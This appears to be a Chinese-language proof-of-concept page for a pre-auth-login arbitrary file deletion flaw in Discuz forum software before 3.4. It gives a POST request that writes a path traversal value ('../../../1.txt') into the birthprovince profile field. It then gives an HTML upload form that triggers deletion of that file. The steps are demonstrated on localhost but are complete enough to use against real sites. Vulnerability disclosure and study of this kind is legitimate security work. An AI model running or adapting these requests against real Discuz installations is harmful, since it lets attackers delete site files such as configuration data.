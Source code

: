 # Discuz_＜3.4_birthprovince_前台任意文件删除

## Affected Version

Discuz < 3.4 版本

需要会员身份登陆站点。

下载地址： 链接: https://pan.baidu.com/s/1hsOoSte 密码: nvjj


## PoC


测试：

1. 为了不破坏原有程序，在根目录下新建 1.txt 作为演示。

![1](1.png)

2. 登陆前台，访问 http://localhost/Discuz/Discuz_X3.2_TC_BIG5/home.php?mod=spacecp&ac=profile&op=base

先发起一个POST请求 

    birthprovince=../../../1.txt&profilesubmit=1&formhash=18a19dce
    // formhash 需要右键查看源代码得到

成功后，个人信息已经被修改成如下:

![changed](changed.png)

3. 最后，本地提交POST表单删除文件 1.txt

表单内容：

    <form action="http://localhost/Discuz/Discuz_X3.2_TC_BIG5/home.php?mod=spacecp&ac=profile&op=base" method="POST" enctype="multipart/form-data">
    <input type="file" name="birthprovince" id="file" />
    <input type="text" name="formhash" value="18a19dce"/></p>
    <input type="text" name="profilesubmit" value="1"/></p>
    <input type="submit" value="Submit" />
    </from>

随便上传一个图片提交会导致删除 birthprovince 设置的文件名称，在这里是 1.txt。

## References

1. http://www.freebuf.com/vuls/149904.html
2. http://www.freebuf.com/articles/system/149810.html
